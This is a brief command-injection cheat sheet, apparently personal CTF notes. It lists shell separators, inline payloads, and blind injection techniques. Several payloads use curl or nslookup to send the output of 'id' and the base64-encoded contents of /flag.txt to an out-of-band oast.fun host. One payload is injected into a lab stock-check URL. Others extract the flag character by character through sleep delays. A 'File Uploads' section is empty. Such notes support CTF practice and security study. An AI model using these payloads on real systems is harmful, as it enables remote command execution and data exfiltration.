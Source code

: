 ___

```
;
&&
|
$(command)
```

# Inline

```
`curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(id)`
```

```
`cat /flag.txt > flag.txt`
```

# Blind

```
https://ey8u7q46.eu1.ctfio.com/stock-check.php?id=f3d1426d-16af-4243-a148-d7c874ddfe1a;curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(cat /flag.txt | base64)
```

```bash
;curl -X POST -d $(base64 /flag.txt) https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind Over DNS

```
;nslookup $(cat /flag.txt).puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind (No Network)

```
; if [ $(cat /flag.txt | cut -c 1-1) = "f" ]; then sleep 3; fi
```

```
; if [ $(cat /flag.txt | cut -c 1-6) = "flag{7" ]; then sleep 3; fi
```

![[Pasted image 20241215201548.png]]

# File Uploads



